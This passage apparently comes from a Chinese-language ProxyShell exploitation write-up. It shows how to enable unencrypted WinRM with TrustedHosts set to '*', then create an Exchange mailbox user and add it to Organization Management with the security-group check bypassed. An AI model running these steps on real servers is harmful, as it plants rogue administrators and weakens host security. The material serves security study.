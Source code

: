 
### 2.调用本地Powershell

命令可参考：

https://gist.githubusercontent.com/zdi-team/a2eb014d248e4e54a2ab4ba4ae3ac3cf/raw/af251aefc37a47489f43128832798a210393013a/P2O-Vancouver-2021-ProxyShell-snippet-8.ps1

在调用本地Powershell命令前，系统需要做以下设置：

#### (1)设置网络位置

不能选择Public network，需要Home network或者Work network

#### (2)设置管理员用户的密码

确保管理员用户设置了密码

#### (3)开启winrm服务

```
winrm quickconfig 
```

#### (4)修改allowunencrypted属性

Powershell命令如下：

```
cd WSMan:\localhost\Client
set-item .\allowunencrypted $true
dir
```

#### (5)设置TrustedHosts

Powershell命令如下：

```
Get-Item WSMan:\localhost\Client\TrustedHosts
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*'
```

以上设置完成后，能够建立PowerShell会话并执行Exchange PowerShell命令

添加用户的操作需要传入securestring，这里可以使用`-ArgumentList`参数传入

添加用户的命令示例：

```
$pwd=convertto-securestring Password123 -asplaintext -force;
$command = {New-Mailbox -UserPrincipalName testuser1@test.com -OrganizationalUnit test.com/Users -Alias testuser1 -Name testuser1 -DisplayName testuser1 -Password $args[0];}
Invoke-Command -Session $session -ScriptBlock $command -ArgumentList $pwd
```

添加管理员用户的命令示例：

```
$command = {Add-RoleGroupMember "Organization Management" -Member testuser1 -BypassSecurityGroupManagerCheck}
Invoke-Command -Session $session -ScriptBlock $command
```

